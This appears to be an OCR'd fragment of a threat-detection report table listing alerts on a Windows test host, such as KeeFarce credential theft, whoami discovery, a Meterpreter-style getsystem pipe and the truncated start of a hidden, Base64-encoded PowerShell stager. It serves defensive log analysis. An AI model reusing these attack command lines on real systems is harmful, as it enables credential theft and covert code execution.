     │ 2019-04-27 18:47:00 │ 1  │ ‣ Execution from Suspicious              │ "IEWIN7"                       │ C:\Users\Public\KeeFarce.exe                       │ KeeFarce.exe                                       │
    │                     │    │ Folder                                   │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-29 20:59:21 │ 1  │ ‣ Non Interactive PowerShell             │ "IEWIN7"                       │ C:\Windows\System32\WindowsPowerShell\v1.0\powersh │ "C:\Windows\System32\WindowsPowerShell\v1.0\powers │
    │                     │    │                                          │                                │ ell.exe                                            │ hell.exe" -s -NoLogo -NoProfile                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-29 20:59:22 │ 1  │ ‣ Local Accounts Discovery               │ "IEWIN7"                       │ C:\Windows\System32\whoami.exe                     │ "C:\Windows\system32\whoami.exe" /all              │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-30 07:46:15 │ 1  │ ‣ Meterpreter or Cobalt                  │ "IEWIN7"                       │ C:\Windows\System32\cmd.exe                        │ cmd.exe /c echo msdhch > \\.\pipe\msdhch           │
    │                     │    │ Strike Getsystem Service                 │                                │                                                    │                                                    │
    │                     │    │ Start                                    │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-30 20:26:52 │ 1  │ ‣ Mimikatz Command Line                  │ "IEWIN7"                       │ C:\Windows\System32\cmd.exe                        │ C:\Windows\system32\cmd.exe /b /c start /b /min po │
    │                     │    │ ‣ FromBase64String Command               │                                │                                                    │ wershell.exe -nop -w hidden -noni -c "if([IntPtr]: │
    │                     │    │ Line                                     │                                │                                                    │ :Size -eq 4){$b='powershell.exe'}else{$b=$env:wind │
    │                     │    │ ‣ Curl Start Combination                 │                                │                                                    │ ir+'\syswow64\WindowsPowerShell\v1.0\powershell.ex │
    │                     │    │                                          │                                │                                                    │ e'};$s=New-Object System.Diagnostics.ProcessStartI │
    │                     │    │                                          │                                │                                                    │ nfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hid │
    │                     │    │                                          │                                │                                                    │ den -c &([scriptblock]::create((New-Object IO.Stre │
    │                     │    │                                          │                                │                                                    │ amReader(New-Object IO.Compression.GzipStream((New │
    │                     │    │                                          │                                │                                                    │ -Object IO.MemoryStream(,[Convert]::FromBase64Stri │